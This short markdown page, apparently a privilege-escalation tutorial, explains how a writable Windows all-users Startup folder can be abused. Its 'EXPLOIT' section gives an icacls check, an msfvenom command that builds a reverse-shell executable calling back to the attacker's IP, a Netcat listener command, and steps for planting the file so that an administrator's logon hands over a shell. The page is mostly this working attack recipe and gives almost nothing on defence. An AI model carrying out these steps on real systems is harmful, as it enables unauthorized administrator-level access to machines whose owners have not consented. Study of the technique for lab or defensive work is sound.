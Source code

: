 Windows provides a mechanism for users to specify applications that should automatically launch upon user authentication. This is done by placing the application's executable files in specific startup directories. While this feature can be convenient for legitimate users, it can also pose a security risk if not properly managed.






Startup applications that are executed when all users (including administrators) authenticate are usually stored in the following folder:
```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```
The first step is to verify whether our user has write access to this directory.
```
icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```
If we have the needed permissions, we could place our malicious executable to that folder.

EXPLOIT
-
1. The first step is to generate some shellcode using ```MSFvenom``` :
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<our ip> LPORT=1234 -f exe > shell.exe
   ```
2. Then transferring shell.exe file to the Windows victim machine using the Python web server and placing it in this `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
` foler.
3. The next step is to set up a Netcat listener:
   ```
   nc -nlvp 1234
   ```

4. Assuming that we have an administrator making logon action .
5. Once the administrator has logged on, the malicious executable was executed, therefore granting a reverse shell as that user:







